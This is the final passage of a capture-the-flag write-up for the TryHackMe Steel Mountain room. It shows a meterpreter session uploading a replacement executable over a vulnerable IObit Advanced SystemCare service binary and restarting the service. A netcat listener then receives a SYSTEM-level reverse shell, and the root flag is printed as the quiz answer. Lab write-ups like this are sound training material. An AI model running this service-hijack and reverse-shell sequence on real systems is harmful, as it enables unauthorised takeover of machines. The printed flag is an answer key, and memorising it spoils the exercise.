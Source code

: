 ```shell-session
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

C:\Users\bill\Desktop>^C
Terminate channel 9? [y/N]  y
meterpreter > upload ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"

meterpreter > shell
...
C:\Users\bill\Desktop>sc start AdvancedSystemCareService9
...
...

# To our listener:
$ nc -nvlp 4443      
...
...
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32>cd C:\\Users\\Administrator\\Desktop
C:\Users\Administrator\Desktop>type root.txt 
9af5f314f57607c00fd09803a587db80
```

We finally have the root flag!

> What is the root flag?
>
> Answer: `9af5f314f57607c00fd09803a587db80`

## Conclusion

I hope this writeup was useful. If you like it, please consider following me on [github](https://github.com/NovusEdge) and dropping a star on the [repo](https://github.com/NovusEdge/thm-writeups)

---

- Author: Aliasgar Khimani
- Room: [Steel Mountain](https://tryhackme.com/room/steelmountain)
